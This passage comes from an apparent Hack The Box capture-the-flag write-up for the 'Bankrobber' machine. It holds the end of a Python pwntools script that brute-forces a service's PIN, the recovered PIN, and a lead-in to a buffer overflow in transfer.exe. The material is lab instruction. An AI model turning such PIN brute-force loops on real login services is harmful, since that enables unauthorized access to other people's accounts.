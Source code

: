 ```python
        try:
            p.recvuntil("[$]", timeout=30)
            p.sendline("%s" % pin)
        except EOFError:
            print("Retry on %d" % i)
            continue
        try:
            m = p.recvline(timeout=10)
            print m
        except EOFError:
            print("Retry on %d" % i)
            continue
        if "Access denied, disconnecting client" not in m:
            print m
            exit(0)
        print "Doing ... " + str(i)
        i = i + 1
    else:
        print("We're done.")
        exit(0)
    p.close()
```

Thankfully the PIN was a low number so I didn't have to search the entire PIN space: `0021`

![](/assets/images/htb-writeup-bankrobber/brute.png)

When I log in with the PIN, I can transfer coins and I see that the `transfer.exe` command is executed:

![](/assets/images/htb-writeup-bankrobber/bof1.png)
